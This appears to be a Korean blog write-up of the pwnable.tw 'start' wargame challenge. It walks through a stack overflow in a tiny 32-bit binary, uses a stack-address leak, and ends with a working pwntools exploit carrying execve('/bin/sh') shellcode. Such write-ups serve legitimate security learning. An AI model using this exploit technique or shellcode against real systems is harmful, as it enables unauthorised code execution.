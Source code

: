 ```yaml
---
layout: post
title: pwnable.tw - start Write Up
tags: [pwnable, writeup, wargame]
comments : true
---
```




## Analysis

![1](https://user-images.githubusercontent.com/23413308/45689125-1bbe3300-bb8e-11e8-81ee-a584c7fd97e0.png)

32bit 리눅스 파일이고 stripped은 걸려있지 않습니다.



![2](https://user-images.githubusercontent.com/23413308/45689176-3f817900-bb8e-11e8-8325-3a8db2981354.png)

start 문제임에 걸맞게(?) 보호 기법도 아무것도 걸려있지 않네요.

스트립 되어있지 않으니 objdump를 통해 어셈을 한 번 봐봅시다.





![3](https://user-images.githubusercontent.com/23413308/45689205-5627d000-bb8e-11e8-92a8-2ec0e395c827.png)

_start와 _exit로 구성되어 있고 int 0x80 들을 보니 sys_call을 통해서 프로그램이 동작하고 있는 것 같습니다.

_start 함수에 0x804808f 부분의 호출은 0x4번 이므로 sys_write, 0x8048097 부분의 호출은 0x3번이므로 sys_read네요.

sys_write를 호출 하기 전에 push를 많이 해주는 것을 보아 저 부분에서 문자열을 push 해준 후 0x3c만큼 입력을 받는 프로그램이네요.

한 번 실행을 해봅시다.



![4](https://user-images.githubusercontent.com/23413308/45689271-87a09b80-bb8e-11e8-86d1-ea3847cd320b.png)

push 해줬던 부분은 Let's start the CTF: 부분이겠고 입력을 받은 후에는 그냥 종료되네요.

gdb를 붙여서 어떤 식으로 exploit을 할 수 있을지 봅니다.



![5](https://user-images.githubusercontent.com/23413308/45689305-9e46f280-bb8e-11e8-8a76-448dc491fa6c.png)

입력을 받은 직후인 add esp, 0x14 부분에 브레이크 포인트를 걸고 실행을 해봅시다.

stack 부분을 보면 esp+0x14에 _exit 함수의 주소가 있는 것이 보이네요. esp+0x14 후 ret 이니 _exit 함수가 호출되면서 종료되는 것 같습니다.

그러면 저 부분을 조작할 수 있으면 익스플로잇이 가능하겠군요!





![6](https://user-images.githubusercontent.com/23413308/45689363-be76b180-bb8e-11e8-82c0-04154a8d9ae0.png)

esp 부분을 보면 입력한 A가 10개 들어있고 그 다음에 0x0804809d가 있습니다. 해당 부분은 _exit의 주소네요.

저 부분을 수정하면 eip를 조종할 수 있을 것 같습니다. 그리고 바로 뒤에 0xffffd710은 stack 부분의 주소네요.

일단 eip 조종이 가능한지 확인을 해봅니다.





![7](https://user-images.githubusercontent.com/23413308/45689416-e239f780-bb8e-11e8-821e-17b715274f7f.png)

본래 _exit 주소가 있던 부분을 A로 덮었더니 eip가 0x41414141로 바뀌었습니다. 그렇다면.. 어떻게 익스플로잇을 할까요?



프로그램이 동작하는 것을 요약하면

1. 문자열을 푸시한다.
2. sys_write를 통해 푸시한 문자열을 출력한다.
3. sys_read를 통해 사용자 입력을 받는다.
4. esp+0x14 부분의 명령을 실행한다.



그렇다면 esp+0x14 부분(_exit 함수가 있는 부분)을 write를 호출하는 부분으로 덮어씌우면 stack의 주소가 sys_write를 통해 출력이 되고 sys_read가 호출이 됩니다.



![8](https://user-images.githubusercontent.com/23413308/45689499-14e3f000-bb8f-11e8-84c3-a47c5a3d9d0d.png)

이 사진을 통해 설명하면 0xffffd710 부분이 leak이 되고 현재 esp는 0xffffd710를 가리키겠죠?

read를 통해 입력을 받으면 0xffffd710 부분이 채워지게 되고 esp+0x14 부분이 eip가 됩니다.



어떻게 익스할 지 보면

1. 첫 번째 _exit를 write 주소로 바꿔서 stack_addr leak
2. leak된 주소부터 다시 똑같은 상황이 발생하므로 eip 컨트롤 가능
3. eip 컨트롤을 해준 후 뒷 부분에 shellcode를 넣고 eip가 그곳을 가리키게 하면 된다!

입니다.



설명이 너무 주저리주저리여서.. 이해가 안되시면 밑에 exploit 코드와 해당 문제의 어셈 코드 및 스택 구조를 따라가보면 이해가 되실 겁니다.



## exploit code

```python
from pwn import *

r = remote("chall.pwnable.tw", 10000)
r.recv()
r.send("A"*20 + p32(0x08048087))

stack_addr = u32(r.recv(4))

print "stack_addr : " + hex(stack_addr)

shellcode = asm("xor ecx, ecx")
shellcode += asm("mul ecx")
shellcode += asm("push ecx")
shellcode += asm("push 0x68732f2f")
shellcode += asm("push 0x6e69622f")
shellcode += asm("mov ebx, esp")
shellcode += asm("mov al, 11")
shellcode += asm("int 0x80")

r.send("A"*20 + p32(stack_addr + 0x14) + shellcode)

r.interactive()
```



![9](https://user-images.githubusercontent.com/23413308/45689698-9b98cd00-bb8f-11e8-8cf9-10cb38621c43.png)

